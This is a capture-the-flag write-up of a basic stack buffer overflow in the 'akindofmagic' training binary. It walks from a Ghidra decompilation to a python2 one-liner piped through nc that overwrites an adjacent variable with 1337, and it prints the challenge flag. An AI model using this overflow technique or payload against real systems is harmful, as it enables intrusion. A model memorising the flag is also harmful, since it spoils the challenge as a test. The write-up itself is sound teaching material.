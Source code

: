 ```yaml
---
layout: writeup
title: A Kind of Magic
ctf: Killer Queen CTF
points: 177
solves: 294
tags: 
    - pwn
date: 2021-11-01
description: |-
    You're a magic man aren't you? Well can you show me?

    [akindofmagic](/assets/CTFs/2021/Killer-Queen-CTF/akindofmagic)
flag: flag{i_hope_its_still_cool_to_use_1337_for_no_reason}
---
```

<details>
    <summary>tl;dr</summary>
    Basic buffer overflow. Send 44 bytes of padding followed by 1337 to match condition and get flag.
</details>

***

## Introduction

We start by running the binary to see what it does:
<pre 
    class="command-line"
    data-user="kali"
    data-host="kali"
    data-output="2"
><code class="language-bash">./akindofmagic
Is this a kind of magic? What is your magic?:</code>
</pre>

Giving it the input "test", we get the response
<pre 
    class="command-line"
    data-user="kali"
    data-host="kali"
    data-output="1-4"
><code class="language-bash">You entered test

Your magic is: 0
You need to challenge the doors of time</code>
</pre>

We decompile the file with Ghidra, which provides the following decompilation of `main` (I renamed some variables and cleaned it a bit):
```c
int main() {
  char input[44];
  uint magic;
  
  magic = 0;

  puts("Is this a kind of magic? What is your magic?: ");
  fgets(input, 64, stdin);
  printf("You entered %s\n", input);
  printf("Your magic is: %d\n", magic);

  if (magic == 1337) {
    puts("Whoa we got a magic man here!");
    system("cat flag.txt");
  } else {
    puts("You need to challenge the doors of time");
  }
  return 0;
}
```
So the program reads a string of up to 64 characters, prints it back, and prints the 32-bit integer `magic` (initialized to 0). It then checks if `magic == 1337` and if so, we get the flag.

## Vulnerability

Inspecting the code a bit closer, we see the input buffer is 44 bytes, but the program reads up to 64. This means we can overflow the buffer, writing into the next parts of the stack where `magic` is stored. So we can overwrite `magic` and control its value.

We can quickly test this. If we input a string of 44 characters, then the next character will be a newline, which ASCII value in decimal is 10. So we would expect the program to output "Your magic is: 10". Let's try it out:
<pre 
    class="command-line"
    data-user="kali"
    data-host="kali"
    data-output="2-7"
><code class="language-bash">./akindofmagic
Is this a kind of magic? What is your magic?: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You entered AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Your magic is: 10
You need to challenge the doors of time</code>
</pre>
It works as we expected.

## Exploit

We now want to perform the same attack as our simple test case, but want `magic` to be set to 1337, not 10. We can again just send 44 random padding characters, but now append 1337, which in hex is 0x539. We must make sure we send this as a 32-bit integer -- 0x00000539 -- to push the following newline character out of the `magic` variable. In little endian bytes, this value is then `\x39\x05\x00\x00` and we run
<pre 
    class="command-line"
    data-user="kali"
    data-host="kali"
    data-output="2-6"
><code class="language-python">python2 -c "print b'A' * 44 + b'\x39\x05\x00\x00'" | nc 143.198.184.186 5000      
Is this a kind of magic? What is your magic?: 
You entered AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA9
Your magic is: 1337
flag{i_hope_its_still_cool_to_use_1337_for_no_reason}
Whoa we got a magic man here!</code>
</pre>
